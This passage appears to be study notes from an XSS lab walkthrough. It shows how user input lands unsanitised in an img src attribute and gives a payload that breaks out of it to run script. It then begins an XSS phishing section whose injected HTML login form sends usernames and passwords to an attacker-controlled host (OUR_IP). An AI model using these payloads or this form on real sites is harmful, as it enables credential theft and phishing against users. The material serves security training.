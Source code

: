 when we try some of our basic payloads we don't get any results but we can understand from the source code how our input is being used: 

![](Images/Pasted%20image%2020240124181848.png)

in this we can see that our input is being placed directly into the `src` attribute without any sanitation 

now we can try a payload like: 

`'> <script>alert(window.origin)</script>`

this exploits the direct input by closing the `img` tag in the source code to then execute the input script

![](Images/Pasted%20image%2020240124182309.png)

### Login form injection 

to perform an XSS phishing attack we need to inject HTML that displays a login form on the targeted page

first we create an HTML form that is seemingly legit: 

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
